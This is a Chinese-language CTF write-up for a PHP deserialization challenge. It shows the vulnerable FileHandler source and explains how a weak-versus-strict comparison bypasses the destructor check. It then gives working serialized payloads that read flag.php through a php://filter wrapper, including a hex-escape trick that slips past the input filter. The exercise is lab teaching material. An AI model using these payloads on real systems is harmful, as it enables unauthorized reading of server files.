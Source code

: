 ![[Pasted image 20221104081222.png]]

好一个一语双关
```php
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
	protected $op;
	protected $filename;
	protected $content;
	function __construct()
	{
		$op = "1";
		$filename = "/tmp/tmpfile";
		$content = "Hello World!";
		$this->process();
	}
	public function process()
	{
		if($this->op == "1")
		{
			$this->write();
		}
		else if($this->op == "2")
		{
			$res = $this->read();
			$this->output($res);
		}
		else
		{
			$this->output("Bad Hacker!");
		}
	}
	private function write()
	{
		if(isset($this->filename) && isset($this->content))
		{
			if(strlen((string)$this->content) > 100)
			{
				$this->output("Too long!");
				die();
			}
			$res = file_put_contents($this->filename,
									 $this->content);
			if($res)
			{
				$this->output("Successful!");
			}
			else 
			{
				$this->output("Failed!");
			}
		}
		else
		{
			$this->output("Failed!");
		}
	}
	private function read()
	{
		$res = "";
		if(isset($this->filename))
		{
			$res = file_get_contents($this->filename);
		}
		return $res;
	}
	private function output($s)
	{
		echo "[Result]: <br>";
		echo $s;
	}
	function __destruct()
	{
		if($this->op === "2")
		{
			$this->op = "1";
		}
		$this->content = "";
		$this->process();
	}
}

function is_valid($s)
{
	for($i = 0; $i < strlen($s); $i++)
	{
		if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
		{
			return false;
		}
	}
	return true;
}

if(isset($_GET{'str'}))
{
	$str = (string)$_GET['str'];
	if(is_valid($str))
	{
		$obj = unserialize($str);
	}
}
```
注意到
```php
function __destruct()
{
	if($this->op === "2")
	{
		$this->op = "1";
	}
	$this->content = "";
	$this->process();
}
```
`__destruct`方法中`$this->op`与`"2"`的比较是强类型比较

而
```php
public function process()
{
	if($this->op == "1")
	{
		$this->write();
	}
	else if($this->op == "2")
	{
		$res = $this->read();
		$this->output($res);
	}
	else
	{
		$this->output("Bad Hacker!");
	}
}
```
`process`方法中`$this->op`与`"1"`和`"2"`的比较是[[弱类型比较绕过|弱类型比较]]

可利用这一点绕过`__deconstruct`的限制
```php
/?str=O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:"%00*%00content";s:3:"123";}
```
发现并没有反应，原来是`%00`被`is_valid`拦截了，搜索发现可通过将序列化文本中的`s`改为`S`来支持16进制转义
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
![[Pasted image 20221104092901.png]]

![[Pasted image 20221104093055.png]]

#Web #反序列化 #PHP #bypass #LFI